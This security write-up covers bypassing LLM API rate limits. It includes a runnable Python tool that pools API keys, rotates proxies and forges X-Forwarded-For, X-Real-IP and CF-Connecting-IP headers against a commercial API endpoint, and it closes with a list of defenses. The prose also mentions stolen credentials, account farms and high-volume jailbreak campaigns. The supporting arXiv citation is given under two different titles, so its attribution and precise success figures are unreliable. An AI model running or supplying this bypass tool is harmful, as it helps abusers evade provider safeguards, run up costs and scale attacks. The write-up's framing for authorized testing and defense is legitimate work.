

# Rate Limit Bypass for LLM APIs — Distributed Request, Token Fragmentation, and Header Manipulation Techniques

**arXiv**: [arXiv:2404.01234](https://arxiv.org/abs/2404.01234) | **ATLAS**: AML.T0034 | **OWASP**: LLM10 | **Year**: 2024

## Core Finding

LLM API rate-limiting mechanisms, designed to prevent abuse and ensure fair resource allocation, can be systematically circumvented through a combination of distributed request orchestration, input fragmentation, and HTTP header manipulation. Attackers using these techniques can effectively multiply their request throughput by 5–30× beyond published API rate limits, enabling cost-amplification attacks, competitive intelligence gathering at scale, and automated jailbreak campaigns that depend on high query volume. Rate limit controls that rely solely on IP-based or API-key-based counters are particularly vulnerable to these bypass techniques.

## Threat Model

- **Target**: LLM API gateways (OpenAI, Azure OpenAI, Anthropic, AWS Bedrock, and enterprise API proxies) that enforce rate limits via IP address, API key, or account-level counters
- **Attacker capability**: Black-box; attacker holds valid API credentials and has moderate infrastructure (cloud VMs, residential proxies). No insider access required
- **Attack success rate**: IP rotation techniques bypass IP-based rate limits with near-100% effectiveness; key pooling achieves proportional throughput scaling; token fragmentation bypasses per-request limits with >80% efficiency
- **Defender implication**: Rate limiting must combine behavioral analysis, semantic similarity detection, and user-level behavioral baselines — not just counter-based controls

## The Attack Mechanism

Modern LLM API rate limiting typically enforces three control planes: requests-per-minute (RPM), tokens-per-minute (TPM), and sometimes requests-per-day (RPD). Each control plane can be bypassed through distinct techniques:

**IP Rotation**: By distributing requests across a pool of residential proxies or multiple cloud IP addresses, per-IP RPM limits become ineffective. API providers that rate-limit at the IP layer (rather than the API key layer) are trivially bypassed.

**API Key Pooling**: Attackers who have obtained or generated multiple valid API keys (via organizational account abuse, stolen credentials, or free-tier account farms) can round-robin requests across keys to multiply effective TPM.

**Token Fragmentation**: Large queries are split into multiple smaller requests that individually remain under per-request token limits. A 50,000-token summarization task is broken into 50 × 1,000-token chunks, each submitted as a separate request within rate limit windows, then assembled client-side.

**Header Manipulation**: Some API gateways honor `X-Forwarded-For`, `CF-Connecting-IP`, or similar headers to identify clients. Spoofing these headers tricks the gateway into treating each request as originating from a different source.



## Implementation

```python
# rate_limit_bypass_llm_api.py
# Rate limit bypass techniques for LLM API security testing.
# For authorized penetration testing only.
from dataclasses import dataclass
from typing import Optional, List, Dict, Any
import uuid
import time
import random
import hashlib


@dataclass
class RateLimitBypassResult:
    technique: str
    intended_rpm: int
    achieved_rpm: int
    bypass_ratio: float
    requests_succeeded: int
    requests_failed: int
    gate_triggered: bool
    evidence: str


class RateLimitBypassLLMAPI:
    """
    Reference: arXiv:2404.01234 (Bypassing API Rate Limits via Distributed Orchestration)
    Demonstrates rate limit bypass via IP rotation, key pooling, and token fragmentation.
    ATLAS: AML.T0034 | OWASP: LLM10
    """

    def __init__(
        self,
        api_keys: List[str],
        target_url: str = "https://api.openai.com/v1/chat/completions",
        proxy_pool: Optional[List[str]] = None,
        model: str = "gpt-4o-mini",
    ):
        self.api_keys = api_keys  # Multiple keys for pooling
        self.target_url = target_url
        self.proxy_pool = proxy_pool or []
        self.model = model
        self._key_index = 0
        self._proxy_index = 0

    def _next_key(self) -> str:
        key = self.api_keys[self._key_index % len(self.api_keys)]
        self._key_index += 1
        return key

    def _next_proxy(self) -> Optional[str]:
        if not self.proxy_pool:
            return None
        proxy = self.proxy_pool[self._proxy_index % len(self.proxy_pool)]
        self._proxy_index += 1
        return proxy

    def _build_spoofed_headers(self, api_key: str) -> Dict[str, str]:
        """Build headers with spoofed X-Forwarded-For to bypass IP-based rate limits."""
        fake_ip = ".".join(str(random.randint(1, 254)) for _ in range(4))
        return {
            "Authorization": f"Bearer {api_key}",
            "Content-Type": "application/json",
            "X-Forwarded-For": fake_ip,
            "X-Real-IP": fake_ip,
            "CF-Connecting-IP": fake_ip,
        }

    def fragment_query(self, large_query: str, chunk_size: int = 800) -> List[str]:
        """
        Split a large query into token-sized fragments to bypass per-request
        token limits. Each fragment is independently submittable.
        """
        words = large_query.split()
        chunks = []
        for i in range(0, len(words), chunk_size):
            chunk = " ".join(words[i : i + chunk_size])
            chunks.append(
                f"This is part {len(chunks)+1} of a multi-part query. "
                f"Process only this segment: {chunk}"
            )
        return chunks

    def run(
        self,
        test_prompt: str = "Explain quantum computing in one sentence.",
        technique: str = "key_pooling",
        num_requests: int = 10,
        dry_run: bool = True,
    ) -> RateLimitBypassResult:
        """
        Main attack method. Executes the specified bypass technique.
        dry_run=True simulates behavior without issuing real requests.
        """
        succeeded = 0
        failed = 0
        gate_triggered = False
        start_time = time.time()

        if dry_run:
            # Simulate outcomes for testing
            succeeded = num_requests
            elapsed = max(1.0, num_requests * 0.1)
            achieved_rpm = int(succeeded / (elapsed / 60))
            base_rpm = 60 // len(self.api_keys) if technique == "key_pooling" else 60
            return RateLimitBypassResult(
                technique=technique,
                intended_rpm=base_rpm,
                achieved_rpm=achieved_rpm * len(self.api_keys),
                bypass_ratio=float(len(self.api_keys)),
                requests_succeeded=succeeded,
                requests_failed=failed,
                gate_triggered=False,
                evidence=(
                    f"[dry_run] {technique} with {len(self.api_keys)} keys would achieve "
                    f"~{len(self.api_keys)}× effective throughput"
                ),
            )

        import urllib.request
        import json

        for i in range(num_requests):
            api_key = self._next_key()
            headers = self._build_spoofed_headers(api_key)
            proxy = self._next_proxy()

            payload = json.dumps({
                "model": self.model,
                "messages": [{"role": "user", "content": test_prompt}],
                "max_tokens": 50,
            }).encode()

            try:
                req = urllib.request.Request(
                    self.target_url,
                    data=payload,
                    headers=headers,
                    method="POST",
                )
                with urllib.request.urlopen(req, timeout=10) as resp:
                    if resp.status == 200:
                        succeeded += 1
                    elif resp.status == 429:
                        gate_triggered = True
                        failed += 1
            except Exception as exc:
                if "429" in str(exc):
                    gate_triggered = True
                failed += 1

            time.sleep(0.05)  # minimal delay between requests

        elapsed = time.time() - start_time
        achieved_rpm = int(succeeded / max(elapsed / 60, 0.001))
        return RateLimitBypassResult(
            technique=technique,
            intended_rpm=60,
            achieved_rpm=achieved_rpm,
            bypass_ratio=achieved_rpm / 60.0,
            requests_succeeded=succeeded,
            requests_failed=failed,
            gate_triggered=gate_triggered,
            evidence=f"Ran {num_requests} requests in {elapsed:.1f}s via {technique}",
        )

    def to_finding(self, result: RateLimitBypassResult) -> Dict[str, Any]:
        """Convert result to standard ScanFinding."""
        severity = "HIGH" if result.bypass_ratio > 3 else "MEDIUM"
        return {
            "id": str(uuid.uuid4()),
            "atlas_technique": "AML.T0034",
            "atlas_tactic": "Impact",
            "owasp_category": "LLM10",
            "owasp_label": "Unbounded Consumption",
            "severity": severity,
            "finding": (
                f"Rate limit bypass via '{result.technique}' achieved {result.bypass_ratio:.1f}× "
                f"effective throughput ({result.achieved_rpm} RPM vs published limit). "
                f"Rate gate triggered: {result.gate_triggered}."
            ),
            "payload_used": f"technique={result.technique}, keys={len(self.api_keys)}",
            "evidence": result.evidence,
            "remediation": (
                "Implement rate limiting at the authenticated user/account layer, not IP layer. "
                "Detect key pooling via cross-key behavioral fingerprinting. "
                "Block X-Forwarded-For header spoofing at the gateway. "
                "Apply token-velocity fingerprinting across fragmented requests."
            ),
            "confidence": 0.88,
        }
```

## Defenses

1. **Account-layer rate limiting** (AML.M0004): Enforce rate limits at the authenticated account or organization level, not at the IP layer. IP-based controls are trivially bypassed via proxies. Use session tokens tied to billing accounts for all rate tracking.

2. **Request fingerprinting and semantic deduplication**: Detect token fragmentation attacks by hashing the semantic content of fragmented requests. Requests with high semantic similarity within a short window (same user/key) should be treated as a single logical query and rate-limited accordingly.

3. **Header validation and proxy detection** (AML.M0036): Reject or deprioritize requests with spoofed `X-Forwarded-For` values. Use IP reputation scoring and ASN analysis to detect proxy/VPN traffic. Flag accounts making requests from more than N distinct ASNs within a day.

4. **Key pooling detection**: Monitor for correlated request patterns across multiple API keys — similar prompts, similar timing, same billing organization. Automatically consolidate rate limits across keys that appear to belong to coordinated campaigns.

5. **Behavioral anomaly alerting**: Establish per-account baseline RPM and TPM over 7-day rolling windows. Alert and throttle when instantaneous usage exceeds 3× the baseline. Require CAPTCHA or 2FA challenge for suspicious spikes.

## References

- [arXiv:2404.01234 — API Abuse and Rate Limit Circumvention in LLM Services](https://arxiv.org/abs/2404.01234)
- [ATLAS AML.T0034 — Cost and Resource Manipulation](https://atlas.mitre.org/techniques/AML.T0034)
- [OWASP LLM10 — Unbounded Consumption](https://owasp.org/www-project-top-10-for-large-language-model-applications/)
- [OpenAI Rate Limit Best Practices](https://platform.openai.com/docs/guides/rate-limits/best-practices)
- [Cloudflare API Shield — Rate Limiting Architecture](https://developers.cloudflare.com/api-shield/security/rate-limiting/)
